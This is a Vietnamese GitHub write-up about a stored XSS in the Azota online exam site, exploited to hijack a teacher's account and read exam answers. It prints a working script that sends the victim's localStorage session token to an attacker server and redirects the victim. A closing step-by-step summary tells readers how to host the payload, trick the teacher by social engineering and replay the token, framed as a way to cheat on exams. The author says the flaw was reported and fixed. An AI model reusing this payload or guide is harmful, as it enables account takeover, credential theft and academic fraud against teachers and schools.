# Tôi đã hack đáp án azota như nào trong kỳ thi như thế nào
-------------------------------------------
## [Đến phần khai thác luôn thì ấn vào đây](#Tóm-tắt-khai-thác)
## - Mở bài
Thật ra cũng thật tình cờ vào một ngày đẹp thức dậy vào lúc 7h đánh răng ngồi vào bàn học mở zoom thân thương lên để học tập trong mùa dịch, một thông báo bất ngờ hiện lên với dòng tin nhắn của thầy tôi là **KIỂM TRA HOÁ GIỮA KỲ** vào tuần sau trên azota, tôi thật bất ngờ nhưng cũng thật bình tĩnh....
Sau 5 tiết học bận rội tôi mở chiếc lattop cũ kỹ của tôi lên vào web azota để lập tài khoản và thi thử. Tôi biết mình là một người học không tốt môn hoá mấy(thật ra mất gốc). Từ đó tôi suy nghĩ có cách nào mà làm cái khác mà vẫn có ăn không.

## - Thân bài 
Sau khi dạo quanh một vòng web thì tôi tìm ra một số api bị dính lỗi.
Địa chỉ bị lỗi là phần chỉnh sửa web site của azota:
![anh_chinh_sua_web](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/1sua_web.PNG)

### Các api thú vị:
#### Api - 1
`PUT /ladipage/m11_2021/d02/1787477/6181ab4aXXXXXXXXXXX`
`Host: wewiin.nyc3.digitaloceanspaces.com`
![post_chinhsua_web](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/2post_chinhsua_web.PNG?raw=true)
Đây là một api post dữ liệu web của mình lên `CND` trung gian của `digitaloceanspaces`
Theo chúng ta thấy dữ liệu post ở đây không bị mã hoá và nó là html.
Mình đã thử chèn một đoạn thẻ `<script>alert(1)</script>` post lên 
Và thật bất ngờ ngay sau khi mình truy cập trang web của mình thì web đã bị xss.
Khoan dừng khoảng chừng là 2 giây ở đây mình đã xss trang `CDN` chứ không phải trang `azota.vn`(đọc sang api thứ 2 thì hiểu nhé).
Mình nhẹ nhàng check lại bằng cách thay `alert(1)` =>  `alert(document.URL)`
Và : 
![alert_url](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/alert_url.PNG?raw=true)
Thật bất ngờ khi alert hiện lên là url azota đến đây thì mình đã hiểu là web đã render dữ liệu *HTML* từ `CDN` vào thẳng trang web chứ không chèn thông qua `iframe`.
Từ đây web đã bị dính `Stored XSS`

#### Api thứ 2
`POST /api/Usersetting/SaveMyDomain HTTP/2`
`Host: azota.vn`
![post_url_render](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/3post_url_render.PNG?raw=true)
Vậy ra đây một api post `url` web của bạn lên để khi truy cập web site của bạn thì **web sẽ render html** từ trang web này @@.
Nếu vậy có nghĩa là mình chèn một [URL](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/xss.html) bị tiêm mã script thì khi web azota render html từ trang đó thì cũng bị `XSS`.



### Tóm lại web đã bị xss nhưng làm sao hack được đáp án
Ở đây nếu muốn lấy đáp án thì phải truy cập vào tài khoản của thầy giáo qua `cookie`(document.cookie) nhưng nếu cookie `httponly` hoặc được `secure` thì chắc cũng bó tay **nhưng ở đây là lúc mình nhận ra** web họ không xác thực qua cookie mà qua `localStorage` **@@ khó hiểu** nếu vậy mình chỉ cần đánh cắp `localStorage` của ních thầy và thay vào của mình là đã hoàn toàn kiểm soát toàn tài khoản thầy để xem đáp án.
code xss 
```
<script>
// post data localStorage lên server của mình 
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "https://webcuaban.com", true);
xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhttp.send("data=".concat(localStorage.getItem("user_obj")));
//chuyển hướng đánh lừa thầy web lỗi 404
window.location=("https://azota.vn/vi/admin/baithi");
</script>
```
Giờ thì `social engineering` thôi :3 
![anh_social](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/social.PNG?raw=true)

Ngay sau đó mình đã có data đăng nhập của thầy:
![anh_data](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/data.PNG?raw=true)
:)) đến giờ thì vào thay `localStorage` của thầy và khui đáp án thi học kỳ lấy 10đ thôi.

## - Kết bài
Mình chỉ demo vui vậy thôi chứ mình đã report cho bên đơn vị liên quan để họ sửa chữa
![anh_suachua](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/fix.PNG?raw=true).


# Tóm tắt khai thác 
- 1 Tạo câu lệnh js lấy `localStorage`
    ```
    <script>
    // post data localStorage lên server của mình 
    var xhttp = new XMLHttpRequest();
    xhttp.open("POST", "https://webcuaban.com", true);
    xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhttp.send("data=".concat(localStorage.getItem("user_obj")));
    //chuyển hướng đánh lừa thầy web lỗi 404
    window.location=("https://azota.vn/vi/admin/baithi");
    </script>
    ```
    Lưu ý vào **https://webcuaban.com** là web của các bạn chèn vào để lấy thông tin post lên ở đây mình khuyến khích các bạn tạo một api get request free ở đây [https://requestbin.com/](https://requestbin.com/)
- 2 Up code lên web nào đó khuyến khích [pastebin](https://pastebin.com/) or [github](https://github.com/VHAE04) ....
  Demo [https://pastebin.com/raw/yS3NZUMr](https://pastebin.com/raw/yS3NZUMr)
- 3 Post url đã được tiêm lệnh lên **[api sau](#Api-thứ-2)**
- 4 Bảo người dùng vào đường dẫn bằng `social engineering`
- 5 Lên web lấy thông tin khi nạn nhân đã post và thay vào `localStorage` của mình
- 6 Truy cập vào tài khoản qua `localStorage` và lấy đáp án thôi :3 **chúc bạn thi thật tốt**
